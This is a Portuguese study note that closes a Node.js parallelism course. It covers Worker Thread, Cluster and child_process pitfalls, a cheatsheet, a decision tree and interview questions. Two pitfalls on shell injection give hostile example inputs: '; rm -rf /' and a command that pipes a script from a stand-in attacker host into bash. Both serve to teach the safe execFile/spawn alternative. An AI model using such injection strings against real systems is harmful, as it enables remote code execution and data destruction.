

# Armadilhas, regras práticas, cheatsheet

Esta é a nota de fechamento do **Galho 2 — Paralelismo** da trilha Node Senior. Enquanto as notas 01–11 ensinaram os mecanismos (Worker Threads, Cluster, child_process, SharedArrayBuffer, pool de workers), esta nota consolida o que fica depois da curva de aprendizado: os erros que os desenvolvedores cometem mesmo depois de entender os mecanismos, as regras práticas que ficam óbvias só depois de depurar um bug de produção, e o vocabulário PT→EN necessário para discutir esses tópicos em entrevistas em inglês.

> [!abstract] TL;DR
> Nota de fechamento do galho 2. Top 10 armadilhas extraídas das notas 01–11, tabela ferramenta×atributo, decision tree compactada em 1 tela, vocabulário PT→EN consolidado do galho (19 termos), e próximos galhos recomendados (Streams, Observability, Segurança).

---

## Diagrama — mapa de armadilhas por ferramenta



## Armadilhas comuns

> [!warning] 1. Worker sem `terminate` em shutdown → leak de threads
> **O que acontece:** Workers ativos impedem o processo de encerrar. Sem cleanup explícito no SIGTERM, threads ficam órfãs e o processo trava no shutdown — ou continua rodando em background consumindo memória e CPU indefinidamente.
>
> **Por quê:** Worker Threads não encerram automaticamente quando o processo principal recebe SIGTERM. O Node aguarda todas as threads ativas terminarem antes de sair — e sem `terminate()` ou `destroy()` no pool, elas nunca terminam.
>
> **Como evitar:** Registrar cleanup explícito no SIGTERM. Em produção, testar o graceful shutdown como parte do CI.
> ```javascript
> // ❌ pool criado, nunca destruído
> const pool = new Piscina({ filename: './worker.js' });
>
> // ✓ cleanup explícito no shutdown
> process.on('SIGTERM', async () => {
>   await pool.destroy();       // piscina
>   // ou: await worker.terminate(); // Worker individual
>   process.exit(0);
> });
> ```

> [!warning] 2. IPC leak — mensagens acumulando na fila quando child não lê → memory growth
> **O que acontece:** O processo pai cresce em memória ao longo do tempo sem razão aparente. O heap dump mostra strings e objetos acumulando sem serem coletados pelo GC.
>
> **Por quê:** O canal IPC entre pai e filho tem buffer. Se o pai envia mensagens mais rápido do que o filho as consome, a fila cresce sem limite — o backpressure não é automático no IPC do Node.
>
> **Como evitar:** Implementar backpressure manual (aguardar confirmação do filho antes de enviar o próximo lote), ou fechar o canal após a troca de dados com `child.disconnect()`.
> ```javascript
> // ❌ parent envia sem backpressure
> setInterval(() => child.send(grandeBatch), 10);
> // filho processa a 1/s — fila cresce 100x por segundo
>
> // ✓ aguardar ack do filho antes de enviar próximo lote
> async function sendWithBackpressure(child, data) {
>   await new Promise((resolve) => {
>     child.once('message', (msg) => msg.ack && resolve());
>     child.send(data);
>   });
> }
> ```

> [!warning] 3. Race condition em `SharedArrayBuffer` sem `Atomics` → corrupção de estado
> **O que acontece:** Com 1 worker funciona perfeitamente. Com 4 workers em produção, contadores retornam valores incorretos e dados ficam corrompidos — de forma intermitente e não-reproduzível em dev.
>
> **Por quê:** Duas threads lendo e escrevendo no mesmo índice de um SAB sem coordenação. As operações `view[0]++` não são atômicas — são três instruções de CPU (load, increment, store). Com duas threads em paralelo e CPUs com múltiplos cores, colisões são frequentes.
>
> **Como evitar:** Sempre usar `Atomics` para qualquer leitura ou escrita em `SharedArrayBuffer` compartilhado entre workers.
> ```javascript
> // ❌ não atômico — race condition garantida com 2+ workers
> const view = new Int32Array(sab);
> view[0]++;
>
> // ✓ sempre Atomics para leitura e escrita compartilhada
> Atomics.add(view, 0, 1);
> // ou: Atomics.load / Atomics.store / Atomics.compareExchange
> ```

> [!warning] 4. `exec` com input do usuário → shell injection
> **O que acontece:** Um usuário envia `; rm -rf /` ou `$(curl attacker.com/shell.sh | bash)` como argumento. O servidor executa o comando arbitrário com os privilégios do processo Node.
>
> **Por quê:** `child_process.exec` sempre invoca um shell (`/bin/sh`). Não existe sanitização confiável — metacaracteres de shell têm semânticas que mudam entre versões e contextos, e qualquer regex de filtragem tem bypass documentado.
>
> **Como evitar:** Nunca usar `exec` com variáveis de input externo. `execFile` e `spawn` com array de args passam o input como string literal ao processo — sem shell, sem injeção.
> ```javascript
> // ❌ CVE esperando para acontecer
> exec(`convert ${req.body.filename} output.png`);
> // filename = 'x; rm -rf /'  → desastre
>
> // ✓ execFile ou spawn com array de args — sem shell, sem injeção
> execFile('convert', [req.body.filename, 'output.png']);
> // ou: spawn('convert', [req.body.filename, 'output.png'])
> ```

> [!warning] 5. Cluster com estado em memória (cache local) → comportamento inconsistente entre workers
> **O que acontece:** O cache funciona em dev (processo único). Em produção com Cluster, algumas requisições retornam dados desatualizados e outras retornam dados frescos — dependendo de qual worker atende o request.
>
> **Por quê:** Cluster cria N processos independentes. Estado em memória (Map, objeto global, cache) existe separadamente em cada worker. Requisições para o mesmo endpoint chegam em workers diferentes — o estado nunca converge entre processos.
>
> **Como evitar:** Estado compartilhado em camada externa — Redis, banco de dados, ou serviço dedicado. Nenhuma escrita crítica em memória de processo worker.
> ```javascript
> // ❌ cada worker tem seu próprio Map — 4 workers = 4 caches desconexos
> const cache = new Map();
> app.get('/item/:id', (req, res) => {
>   if (cache.has(req.params.id)) return res.json(cache.get(req.params.id));
>   // ...
> });
>
> // ✓ cache externo compartilhado entre todos os workers
> import { createClient } from 'redis';
> const redis = createClient();
> app.get('/item/:id', async (req, res) => {
>   const cached = await redis.get(req.params.id);
>   if (cached) return res.json(JSON.parse(cached));
>   // ...
> });
> ```

> [!warning] 6. Fork sem cleanup de child em parent crash → processos zumbi
> **O que acontece:** O servidor reinicia (crash, deploy, SIGTERM), mas os processos filhos continuam rodando em background consumindo CPU e memória. Após múltiplos restarts, dezenas de processos zumbi acumulam até esgotar os recursos do servidor.
>
> **Por quê:** Se o processo pai crasha sem sinalizar os filhos, os filhos ficam órfãos — rodando sem supervisão, sem chance de encerramento gracioso, re-parented pelo PID 1 (init/systemd).
>
> **Como evitar:** Registrar handlers de cleanup no pai para todos os sinais relevantes. Em produção, monitorar contagem de processos filhos.
> ```javascript
> // ❌ nenhum handler de cleanup no pai
> const child = fork('./worker.js');
> // pai crasha → child continua vivo indefinidamente
>
> // ✓ cleanup explícito em sinais do pai
> process.on('SIGTERM', () => {
>   child.kill('SIGTERM');
>   process.exit(0);
> });
> process.on('exit', () => child.kill());
> ```

> [!warning] 7. `transferList` esquecido em buffer grande → cópia silenciosa de bytes
> **O que acontece:** Processamento de imagens de 50 MB funciona, mas o uso de heap duplica por alguns milissegundos durante a transferência para o worker. Em carga alta, o GC precisa trabalhar mais e a latência aumenta em percentis altos (p95/p99).
>
> **Por quê:** `postMessage(buf)` sem `[buf]` no segundo argumento faz uma cópia completa do `ArrayBuffer` via structured clone. Com buffers de imagem, áudio ou ML de dezenas de MB, o heap cresce o dobro. Sem aviso em runtime — o código funciona, mas desperdiça memória e tempo de CPU no clone.
>
> **Como evitar:** Sempre incluir o buffer no `transferList`. O buffer original fica detached (inutilizável no thread de origem) — isso é intencional.
> ```javascript
> // ❌ cópia silenciosa de 100 MB
> worker.postMessage(imagemBuffer);
>
> // ✓ transferência zero-copy — original fica detached
> worker.postMessage(imagemBuffer, [imagemBuffer]);
> // Após esta linha, imagemBuffer.byteLength === 0 (detached)
> ```

> [!warning] 8. Worker preso em loop síncrono → mensagens não processadas, terminate é única saída
> **O que acontece:** O Worker é enviado uma mensagem de cancelamento ou shutdown, mas não responde. O pai fica aguardando indefinidamente — a única saída é `terminate()`, que é equivalente a SIGKILL e não permite cleanup gracioso.
>
> **Por quê:** Um Worker em loop síncrono (`while(true)` ou cálculo sem pausa) não processa mensagens recebidas. O event loop do worker está travado — `parentPort.on('message')` nunca é alcançado enquanto o loop roda.
>
> **Como evitar:** Dividir trabalho longo em chunks com pausas que liberam o event loop. `setImmediate` entre chunks é a técnica padrão — mais eficiente que `setTimeout(0)`.
> ```javascript
> // ❌ loop síncrono bloqueia o event loop do worker
> while (true) {
>   processarChunk(dados);
> }
> // parentPort.on('message') nunca é alcançado
>
> // ✓ cede o event loop a cada chunk
> async function processar(chunks) {
>   for (const chunk of chunks) {
>     processarChunk(chunk);
>     await new Promise((r) => setImmediate(r)); // yield
>   }
>   parentPort.postMessage({ done: true });
> }
> ```

> [!warning] 9. Cluster + sticky sessions sem reverse proxy ciente → WebSocket quebra na troca de worker
> **O que acontece:** Conexões WebSocket caem aleatoriamente em produção. O cliente reconecta, às vezes funciona, às vezes não. O log mostra handshake WebSocket sendo rejeitado em alguns workers.
>
> **Por quê:** WebSocket é uma conexão persistente. Se o reverse proxy não tem sticky sessions (affinity), requisições do mesmo cliente chegam em workers diferentes — e o handshake WebSocket não é reenviado para o worker errado. A conexão quebra ou fica em estado inválido.
>
> **Como evitar:** Configurar sticky sessions no reverse proxy. `ip_hash` no nginx é a opção mais simples; `@socket.io/sticky` (cookie/sid) é mais precisa atrás de NAT.
> ```nginx
> # nginx — ip_hash como afinidade básica
> upstream node_cluster {
>   ip_hash;
>   server 127.0.0.1:3001;
>   server 127.0.0.1:3002;
>   server 127.0.0.1:3003;
>   server 127.0.0.1:3004;
> }
> ```

> [!warning] 10. `spawn` com `shell: true` e input do usuário → shell injection idêntica ao `exec`
> **O que acontece:** O código usa `spawn` (que parece seguro), mas passa `shell: true`. Input do usuário com metacaracteres de shell executa comandos arbitrários — exatamente como `exec`.
>
> **Por quê:** `spawn` sem `shell` é seguro — passa args diretamente ao processo sem shell. Com `shell: true`, o comportamento é idêntico ao `exec`: a string inteira é passada para `/bin/sh`. A opção `shell: true` existe para compatibilidade com pipes de shell hardcoded, não para uso com input externo.
>
> **Como evitar:** Nunca usar `shell: true` com variáveis de input externo. Se o comando precisa de pipes de shell, verificar se é possível reescrever sem shell. Se não, o comando deve ser completamente hardcoded.
> ```javascript
> // ❌ shell: true anula a segurança do spawn
> spawn('convert ' + req.body.filename + ' output.png', { shell: true });
>
> // ✓ sem shell, args como array — nunca shell: true com input externo
> spawn('convert', [req.body.filename, 'output.png']);
> ```

---

## Casos práticos

### Caso 1 — Diagnosticando um vazamento de threads em produção

Um serviço de processamento de imagens está crescendo em memória ao longo do dia sem razão aparente. O heap dump mostra Worker Threads acumulando. A causa: workers criados por request sem pool e sem `terminate()`.

```javascript
// ❌ Worker por request sem cleanup — leak garantido
app.post('/resize', async (req, res) => {
  const worker = new Worker('./resize-worker.js', {
    workerData: { buffer: req.body, width: 800 },
  });

  // Sem worker.terminate() ao finalizar → thread fica ativa indefinidamente
  const result = await new Promise((resolve, reject) => {
    worker.on('message', resolve);
    worker.on('error', reject);
    // Nenhum finally para terminar o worker
  });

  res.send(result);
});
```

```javascript
// ✓ Pool com piscina — reutiliza threads, sem leak
import Piscina from 'piscina';
import { availableParallelism } from 'node:os';

const pool = new Piscina({
  filename: new URL('./resize-worker.js', import.meta.url).href,
  maxThreads: availableParallelism(),
});

// Cleanup explícito no shutdown
process.on('SIGTERM', async () => {
  await pool.destroy(); // aguarda tasks em voo e encerra todas as threads
  process.exit(0);
});

app.post('/resize', async (req, res) => {
  const result = await pool.run({ buffer: req.body, width: 800 });
  res.send(result);
});
```

**Como detectar o problema:** `process.resourceUsage().voluntaryContextSwitches` e métricas de heap com `v8.getHeapStatistics()`. Se o número de threads cresce monotonicamente (verificável com `ps -p <pid> -L | wc -l` no Linux), você tem um leak de Worker Threads.

---

### Caso 2 — Race condition silenciosa em SharedArrayBuffer

Um worker pool processa dados em paralelo em um `SharedArrayBuffer`. Em testes com 1 worker parece funcionar. Com 4 workers em prod, o contador de itens processados retorna valores incorretos intermitentemente.

```javascript
// ❌ Incremento não-atômico — race condition com 2+ workers
// Em worker.js:
const view = new Int32Array(workerData.sab);

function processItem() {
  // Três operações: load, increment, store — não são atômicas
  view[0] = view[0] + 1; // outro worker pode escrever entre o load e o store
}
```

```javascript
// ✓ Operação atômica garante incremento seguro entre threads
// Em worker.js:
const view = new Int32Array(workerData.sab);

function processItem() {
  // Uma operação atômica: lock implícito no nível de CPU
  Atomics.add(view, 0, 1);
}

// Para leitura segura do total no thread principal:
const total = Atomics.load(view, 0);
```

**Por que é difícil de detectar:** Race conditions em `SharedArrayBuffer` são não-determinísticas — dependem do scheduling do SO. Em máquinas com menos cores (ex: dev com 2 cores), threads raramente colidem. Em prod com 8+ cores, colisões são frequentes. O sintoma é contagem incorreta ou corrupção de dados sem erro explícito.

**Como reproduzir em testes:** use `--expose-gc` e spawne múltiplos workers que todos escrevem no mesmo índice simultaneamente. Ou use a API `Atomics.wait()`/`Atomics.notify()` para criar contenção deliberada nos testes.

---

## Cheatsheet — 3 ferramentas × 5 atributos

| Atributo | Worker Thread | Cluster | child_process |
|---|---|---|---|
| **Modelo** | shared-memory (threads no mesmo processo) | shared-port (multi-processo, mesma porta TCP) | separate-process (isolamento total) |
| **Custo de criação** | ~1–5 ms por thread | ~100 ms por fork | ~100 ms por fork |
| **IPC / Comunicação** | `postMessage` / `SharedArrayBuffer` / `transferList` | IPC built-in (`worker.send` / `process.on('message')`) | stdio streams (`spawn`/`exec`) ou IPC (`fork`) |
| **Use case principal** | CPU-bound dentro de um handler ou job | Escalar servidor HTTP em single-VM sem orquestrador | Rodar comando externo (ffmpeg, python, git) ou Node filho isolado |
| **Lib de prod** | `piscina` (pool de workers) | PM2 em modo cluster (legacy) / orquestrador externo | — (use `execFile` ou `spawn` diretamente) |

> [!note] Regra rápida
> Worker Thread → CPU-bound. Cluster → HTTP scaling em single-VM. child_process → comando externo ou processo isolado.

---

## Decision tree compactada

```
Qual o problema?
│
├─ CPU-bound em handler ou job?
│   └─ Worker Thread
│       ├─ Alta carga / frequente? → pool via piscina (availableParallelism() workers)
│       └─ Esporádico? → Worker por task é OK
│
├─ Escalar HTTP além de 1 thread?
│   ├─ Tem orquestrador (K8s, ECS, Fly.io)? → não adicionar Cluster; 1 processo por pod
│   └─ Single-VM sem orquestrador? → Cluster (ou PM2 em modo cluster)
│
├─ Rodar comando externo (ffmpeg, git, python, imagemagick)?
│   ├─ Output grande (> 1 MB) ou processo longo? → spawn (streams)
│   ├─ Output pequeno, comando hardcoded? → exec
│   └─ Args vêm de input externo? → SEMPRE execFile ou spawn com array; NUNCA exec
│
└─ Spawnar processo Node filho isolado?
    ├─ CPU-bound sem necessidade de isolamento? → Worker Thread (mais leve)
    ├─ Isolamento total / native module legado / código não-confiável? → fork
    └─ Supervisor tree / processo descartável? → fork + backoff exponencial
```

> [!warning] Antes de percorrer a árvore
> 1. Medir: event loop lag, percentis de latência (p50/p95/p99), CPU por thread.
> 2. Identificar: CPU-bound ou I/O-bound?
> 3. Testar alternativas: streaming, paginação, refatoração, API async, `UV_THREADPOOL_SIZE`, fila de background.
> 4. Só então: percorrer a decision tree.

---

## Vocabulário PT→EN consolidado

| PT-BR | EN |
|---|---|
| paralelismo | parallelism |
| concorrência | concurrency |
| thread de trabalho | Worker Thread |
| porta-pai | parentPort |
| bifurcar | fork |
| spawnar | spawn |
| pool de workers | worker pool |
| memória compartilhada | shared memory |
| operação atômica | atomic operation |
| condição de corrida | race condition |
| comparar-e-trocar | compare-and-swap (CAS) |
| aguardar-notificar | wait-notify |
| porta compartilhada | shared port |
| comunicação interprocesso | inter-process communication (IPC) |
| injeção de shell | shell injection |
| zumbi | zombie process |
| encerramento gracioso | graceful shutdown |
| orquestrador | orchestrator |
| réplica | replica |
| transferência zero-cópia | zero-copy transfer |
| tamanho do pool | pool size |
| paralelismo disponível | available parallelism |
| overhead de criação | spawn overhead / creation cost |
| processo órfão | orphan process |

---

## Regras de ouro

Oito regras extraídas dos padrões de erro mais comuns do galho — aplicáveis como checklist de code review antes de qualquer PR que introduza paralelismo. Para cada item, a causa raiz está descrita em detalhes na seção `## Armadilhas comuns` acima:

1. **Medir antes de paralelizar.** Event loop lag baixo + latência alta = problema de I/O, não CPU. Worker Thread não ajuda.
2. **Todo Worker criado precisa de um caminho de encerramento.** Pool via piscina com `destroy()` no SIGTERM; Worker individual com `terminate()` no finally ou no handler de sinal.
3. **`SharedArrayBuffer` sem `Atomics` é bug silencioso.** Toda leitura/escrita compartilhada entre threads exige `Atomics`. Sem exceção.
4. **`exec` com variável externa é vulnerabilidade estrutural.** Não existe sanitização confiável. Usar `execFile` ou `spawn` com array sempre que args vêm de input externo.
5. **Cluster não resolve CPU-bound dentro de um handler.** Multiplica o problema. Worker Thread paraleliza dentro do request; Cluster paralela entre requests.
6. **`fork` dentro de K8s é overhead duplo.** 1 processo por container; orquestrador gerencia réplicas. PM2 cluster dentro de pod não traz benefício e dificulta health check por processo.
7. **`transferList` é obrigatório para buffers grandes.** `postMessage(buf)` sem o segundo argumento faz cópia silenciosa. Com imagens de 50 MB, isso dobra o uso de heap durante a transferência. O array `[buf]` habilita a transferência zero-copy e detach o buffer original.
8. **Loop síncrono em Worker requer `terminate()` para encerrar.** Worker em `while(true)` não processa mensagens de shutdown. Dividir em chunks com `setImmediate` entre iterações é a alternativa cooperativa; caso contrário, o pai precisa usar `terminate()` (SIGKILL implícito, sem cleanup gracioso).

---

## Em entrevista — perguntas frequentes

**"Qual a diferença entre Worker Thread e fork em termos de isolamento?"**
Worker Thread roda no mesmo processo OS: compartilha heap via `SharedArrayBuffer`, tem acesso ao mesmo conjunto de file descriptors, e um crash de thread pode afetar a estabilidade do processo (embora o Node tente isolar falhas por thread). `fork` cria um processo OS separado: heap completamente isolada, falha em um filho não propaga para o pai, e o isolamento é garantido pelo kernel. Para código não-confiável ou native addons que podem causar SIGSEGV, `fork` é obrigatório. Para CPU-bound puro e confiável, Worker Thread é mais eficiente.

**"Como você dimensiona o tamanho de um pool de Workers?"**
Ponto de partida: `os.availableParallelism()` (disponível desde Node 19). Em containers com CPU limits (ex: `--cpus="2"` no Docker ou `resources.limits.cpu: "2"` no K8s), `availableParallelism()` retorna o número correto de cores disponíveis — diferente de `os.cpus().length`, que pode retornar os cores físicos do host, ignorando os cgroup limits do container. Para workers com I/O misto (não puramente CPU-bound), vale testar pools maiores que `availableParallelism()` e medir throughput com carga real. O piscina expõe métricas de fila (`queueSize`, `completed`, `utilization`) que permitem ajuste baseado em dados observados em produção — não em intuição.

**"Quando IPC entre processos se torna um gargalo?"**
IPC via `child.send()` usa serialização/desserialização de JSON por padrão — não é zero-copy. Para mensagens grandes (megabytes de dados), o overhead de serialização domina. A alternativa é usar `SharedArrayBuffer` com Atomics (entre Workers, não entre processos `fork`), ou passar dados via sistema de arquivos / socket Unix em vez de IPC. Para processos `fork` que precisam trocar dados grandes, `stdin`/`stdout` como streams é frequentemente mais eficiente que IPC para volumes acima de alguns KB por mensagem.

**"Como você testa código com Worker Threads em Jest/Vitest?"**
Worker Threads criam threads reais — o ambiente de testes padrão (jsdom ou node) roda em thread única e não isola threads entre testes. As estratégias comuns: (1) Extrair a lógica pura do worker (a função que faz o cálculo) e testá-la diretamente sem a infraestrutura de Worker Thread — cobre a lógica de negócio sem overhead de threading. (2) Usar `jest.mock('worker_threads')` para testes de integração que precisam verificar que o worker foi criado corretamente. (3) Testes de integração reais (worker criado de verdade) ficam em arquivos separados com timeout aumentado (`testTimeout: 30000`) e rodam fora do watch mode. A regra prática: lógica de negócio em unit tests normais; orquestração de workers em testes de integração.

---

## Próximos galhos

### Galho 3 — Streams

Para **dados grandes sem bloquear o event loop**: Readable, Writable, Transform, backpressure. Quando `JSON.parse` de payload inteiro já é o gargalo e a solução é processar em chunks enquanto os bytes chegam.

### Galho 5 — Observability

Para **observar workers e cluster em produção**: métricas de pool (fila, idle workers, throughput), profiling de Worker Threads (V8 CPU profiler, Clinic.js), alertas em event loop lag, rastreamento distribuído entre processos.

### Galho 6 — Segurança

Para **isolamento e sandbox**: `vm` module, `isolated-vm` (V8 isolate sem acesso a APIs Node), Permission Model (Node 20+), execução de código não-confiável sem acesso ao sistema de arquivos ou rede.

---

## O que vem a seguir

Esta nota encerra o **Galho 2 — Paralelismo** da trilha Node Senior. Os próximos galhos naturais continuam o aprofundamento em produção:

**Galho 3 — Streams** é o complemento direto: quando você usa Worker Threads para processar dados em paralelo, esses dados precisam chegar e sair sem acumular na memória. Readable, Writable, Transform e backpressure são o mecanismo que fecha esse circuito. Streams + Workers = pipeline de processamento de alta performance.

**Galho 5 — Observability** cobre como monitorar o que você acabou de construir: métricas de pool de workers (fila, idle workers, throughput), profiling de Worker Threads com o V8 CPU profiler, alertas em event loop lag, e rastreamento distribuído entre processos em produção.

**Galho 6 — Segurança** vai além do `execFile` vs `exec` desta nota: `vm` module, `isolated-vm` (V8 isolate sem acesso a APIs Node), Permission Model do Node 20+, e execução de código não-confiável sem acesso ao sistema de arquivos ou rede.

Veja `[[03-Dominios/Tecnologia/Node/Paralelismo/index]]` para o mapa completo do galho.

---

## Fontes

- [Node.js Docs — Worker Threads](https://nodejs.org/api/worker_threads.html) — referência completa incluindo `transferList`, `SharedArrayBuffer` e `Atomics`
- [Node.js Docs — `Atomics`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Atomics) — operações atômicas no MDN (válido para Node e browser)
- [Piscina — Worker Thread Pool](https://github.com/piscinajs/piscina) — biblioteca canônica de pool de workers para Node; expõe `queueSize`, `utilization` e `completed` para observabilidade do pool
- [Node.js Docs — `child_process`](https://nodejs.org/api/child_process.html) — referência de `exec`, `execFile`, `spawn` e `fork` com exemplos de segurança e streams
- [Node.js Docs — `os.availableParallelism()`](https://nodejs.org/api/os.html#osavailableparallelism) — retorna o número correto de CPUs disponíveis em containers com CPU limits (mais preciso que `os.cpus().length` em ambientes K8s/Docker)
- [MDN — `SharedArrayBuffer`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/SharedArrayBuffer) — inclui notas sobre COOP/COEP necessários para uso no browser (em Node não há essa restrição)

---

## Veja também

- [[03-Dominios/Tecnologia/Node/Paralelismo/index]] — MOC do galho 2
- [[01 - Por que paralelismo em Node]] — quando paralelizar; CPU-bound vs I/O-bound; sequência de diagnóstico
- [[02 - As 3 ferramentas - Worker Threads, Cluster, child_process]] — visão panorâmica dos 3 modelos
- [[03 - Worker Threads - fundamentos]] — criação, eventos de ciclo de vida, terminate
- [[04 - Comunicação entre workers - postMessage e MessageChannel]] — structured clone, transferList, MessageChannel
- [[05 - Memória compartilhada - SharedArrayBuffer e Atomics]] — SAB, Atomics, race conditions
- [[06 - Pool de workers - pattern de produção]] — piscina, sizing, graceful shutdown do pool
- [[07 - Cluster - escalando HTTP por CPU]] — port sharing, round-robin, sticky sessions
- [[08 - child_process com exec e spawn]] — segurança, maxBuffer, streams de output
- [[09 - child_process com fork - Node child com IPC]] — IPC bidirecional, supervisor tree
- [[10 - Cluster vs PM2 vs Kubernetes - quem orquestra]] — onde Cluster ainda faz sentido em 2026
- [[11 - Decision tree - qual ferramenta para qual problema]] — decision tree completa com tabela problema→ferramenta→razão
- [[Node.js]] — tronco da trilha Node Senior
- [[03-Dominios/Tecnologia/Node/Runtime e Event Loop/index]] — galho 1: event loop, async/await, bloqueio — pré-requisito do galho 2
